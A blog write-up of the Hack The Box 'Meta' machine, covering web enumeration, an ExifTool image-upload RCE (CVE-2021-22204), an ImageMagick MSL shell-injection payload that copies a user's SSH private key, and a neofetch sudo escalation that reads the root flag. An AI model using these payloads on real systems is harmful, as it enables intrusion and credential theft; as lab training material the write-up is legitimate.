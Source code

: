 ```yaml
---
title: Meta
tags: 
    - CVE-2021-22204
    - File Upload and Execution
    - ImageMagic
    - Neofetch
    - "Medium Machines"
category:
  - "Hack The Box Writeup"  
date: 2022-02-07
description: "Hack The Box Machine - Meta writeup"
author: "Tejas"
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/FJehUQnXwA4d7Gi?format=jpg&name=medium" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Open Ports

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumerating Webpage

{{< figure src="images/Untitled.png">}}


[`http://meta.htb/`](http://meta.htb/)  redirects to `artcorp.htb` lets put the domain in hosts file. 

{{< figure src="images/Untitled%201.png">}}

### Subdomain Enumeration

It says artcorp is in startup phase and it should launch soon. And metaview to launch soon. So, I’m assuming the subdomain could be `metaview.artcorp.htb` or `meta.artcorp.htb` something similar maybe let me try those two first. 

Unfortunately not! They ain’t the subdomain. Ok, time to run ffuf.

{{< figure src="images/Untitled%202.png">}}


My guesses could be wild! But ffuf found a subdomain `dev01.artcorp.htb` lets enumerate it

### Enumerating Webpage - dev01.artcorp.htb

{{< figure src="images/Untitled%203.png">}}

I got this when I uploaded a *webp* file. So we now know its png and jpg **only.**

I then uploaded a jpg file, and it looked like normal metadata viewer 🤔

{{< figure src="images/Untitled%204.png">}}

I googled something like this and found some interesting results 

{{< figure src="images/Untitled%205.png">}}

After uploading the malicious evil.png for POC to check if the exploit worked I made the remote machine ping back my IP. And I captured it using tcpdump. Upon seeing the log from tcpdump I can confirm RCE worked. 

{{< figure src="images/Untitled%206.png">}}

## Foothold

Let’s exploit the RCE which we have found. 

I tried reversehll payloads based upon the [first article](https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a) for some reason it doesn’t give the shell. But I can ping 😑. Ok I think its djvu thing from hackerone [report](https://hackerone.com/reports/1154542) as it has CVE-2021-22204. 

Detail explanation about the is [here](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/). Now lets use the exploit POC from [github](https://github.com/se162xg/CVE-2021-22204)

 

### Exploiting CVE-2021-22204

I first tried this [POC](https://github.com/se162xg/CVE-2021-22204) and then [this](https://github.com/bilkoh/POC-CVE-2021-22204). Finally [this](https://github.com/convisolabs/CVE-2021-22204-exiftool) one worked.

change the IP and Port. Upload the image.

{{< figure src="images/Untitled%207.png">}}

{{< figure src="images/Untitled%208.png">}}

### www-data to thomas

I found a cron job running. Lets see what it is. 

{{< figure src="images/Untitled%209.png">}}

{{< figure src="images/Untitled%2010.png">}}

Its running ImageMagic `/usr/local/bin/mogrify`

{{< figure src="images/Untitled%2011.png">}}

{{< figure src="images/Untitled%2012.png">}}

### Exploiting ImageMagic

{{< figure src="images/Untitled%2013.png">}}

I found two articles interesting lets try them first. 

article [1](https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/) [2](https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image)

Article 1 doesn’t seem to work for me. So I’m not posting the things I did.

I found a [poc](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) close to article 2. Lets try it.

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/tejas`;"'>  
<read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

{{< figure src="images/Untitled%2014.png">}}

Now I’ve RCE. Let’s exploit for shell as user Thomas.

Now let’s exfiltrate private key from thomas. 

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
 <read filename="pdf:/etc/passwd"/>
 <get width="base-width" height="base-height" />
 <resize geometry="400x400" />
 <write filename="test.png" />
 <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
 <image xlink:href="msl:poc.svg" height="100" width="100"/>
 </svg>
</image>
```

After some time we’ll get the private key but its not formatted lets format it.

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa` 

`echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn <sniped> bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa`  

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa`

{{< figure src="images/Untitled%2015.png">}}

User flag owned!

## Privilege Escalation

I found the following information. Let’s see what we can do. 

{{< figure src="images/Untitled%2016.png">}}

configuration file for neofetch is located in `$Home/.config/neofetch/config.conf`

Configuration file is very huge, and I’m not interested in reading them. But I feel whenever I run it with sudo config file of user root is used. How do I make the program use the config file from current user thomas 🤔.

What is `XDG_CONFIG_HOME`? I found it interesting and googled it. It seems that I can set the base dir of config file as a environment variable. ok let’s set our home directory as a config directory.

{{< figure src="images/Untitled%2017.png">}}

Now lets modify the config file a bit so our command is executed as root. I modified the neofetch’s config file with `cp /root/root.txt /dev/shm/root.txt && chmod 777 /dev/shm/root.txt`

And then lets run neofetch as sudo.

{{< figure src="images/Untitled%2018.png">}}

Root Flag owned!